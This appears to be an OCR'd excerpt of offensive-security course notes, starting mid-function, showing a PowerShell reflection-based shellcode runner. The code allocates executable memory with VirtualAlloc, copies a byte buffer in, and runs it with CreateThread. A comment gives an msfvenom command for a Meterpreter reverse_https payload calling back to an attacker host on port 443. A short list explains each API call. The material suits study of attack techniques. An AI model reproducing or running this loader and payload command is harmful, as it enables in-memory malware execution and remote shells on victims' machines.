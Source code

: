 ```powershell
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])
      
# The second block of code sets up the constructor
  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

# Sets up the invoke method
  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')
      
# the constructor is invoked and the delegate type is returned to the caller
	return $type.CreateType()
}

# uses LookupFunc to search Kernel32.dll for the Win32 VirtualAlloc API. uses our LookupFunc and getDelegateType functions to allocate a memory buffer
$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

# msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f ps1
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0...

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

# we can create a thread and call WaitForSingleObject to block PowerShell from terminating
$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

1. `lookupFunc` 👉🏻 to obtain a reference to the `System.dll` assembly's `GetModuleHandle` and `GetProcAddress` methods using `GetType` and `GetMethod` functions (aka the [reflection](https://docs.microsoft.com/en-us/dotnet/csharp/programming-guide/concepts/reflection) technique).
2. `getDelegateType` 👉🏻 to define the argument types for the APIs [using a delegate type via Reflection](https://docs.microsoft.com/ru-ru/archive/blogs/joelpob/creating-delegate-types-via-reflection-emit) and return it.
3. `VirtualAlloc` 👉🏻 to allocate writable, readable, and executable (unmanaged) memory space in virtual address space of the calling process.
4. `Copy` 👉🏻 to copy the shellcode bytes into allocated memory location.
5. `CreateThread` 👉🏻 to create a new execution thread in the calling process and execute the shellcode.
6. `WaitForSingleObject` 👉🏻 to delay termination of the PowerShell script until the shell fully executes
